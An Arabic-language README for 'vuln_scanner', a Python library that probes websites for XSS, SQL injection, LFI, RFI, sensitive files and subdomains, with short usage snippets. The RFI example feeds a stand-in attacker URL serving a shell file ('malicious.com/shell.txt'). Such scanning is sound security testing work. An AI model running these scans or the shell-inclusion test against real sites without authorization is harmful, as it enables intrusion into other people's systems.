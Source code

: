 
# 🔒 vuln_scanner

مكتبة **Python** احترافية لفحص واكتشاف أبرز الثغرات الأمنية في المواقع الإلكترونية.  
تساعدك الأداة في تأمين مواقع الويب من خلال اكتشاف مجموعة من الثغرات الشائعة والخطيرة.

---

## 🚀 **المميزات**

- ✅ **XSS (Cross-Site Scripting):** فحص وإيجاد ثغرات إدخال السكريبت.  
- ✅ **SQL Injection (SQLi):** فحص استغلال قواعد البيانات عبر استعلامات SQL.  
- ✅ **Local File Inclusion (LFI):** فحص إدراج الملفات المحلية.  
- ✅ **Remote File Inclusion (RFI):** فحص إدراج الملفات عن بُعد.  
- ✅ **Sensitive Files & Directories Scanner:** اكتشاف الملفات والمجلدات الحساسة.  
- ✅ **Subdomain Scanner:** فحص واكتشاف النطاقات الفرعية للمواقع.  

---

## 📝 **الاستخدام**

### 🔍 **1. فحص ثغرات XSS**

```python
from vuln_scanner import scan_xss

url = "http://example.com/search?q=test"
scan_xss(url)
```

---

### 🔍 **2. فحص ثغرات SQL Injection**

```python
from vuln_scanner import scan_sql_injection

url = "http://example.com/product?id=1"
scan_sql_injection(url)
```

---

### 🔍 **3. فحص ثغرات LFI**

```python
from vuln_scanner import scan_lfi

url = "http://example.com/page.php?file=home"
scan_lfi(url)
```

---

### 🔍 **4. فحص ثغرات RFI**

```python
from vuln_scanner import scan_rfi

url = "http://example.com/page.php?file="
external_url = "http://malicious.com/shell.txt"
scan_rfi(url, external_url)
```

---

### 🔍 **5. فحص الملفات والدلائل الحساسة**

```python
from vuln_scanner import hidden_link_finder

url = "http://example.com"
wordlist = "common.txt"

hidden_link_finder(url, wordlist)
```

---

### 🔍 **6. فحص النطاقات الفرعية (Subdomain Scanner)**

```python
from vuln_scanner import subdomain_scanner

domain = "example.com"
wordlist = "subdomains.txt"

subdomain_scanner(domain, wordlist)
```



💡 **إذا كان لديك أي استفسارات أو اقتراحات، لا تتردد في التواصل!**
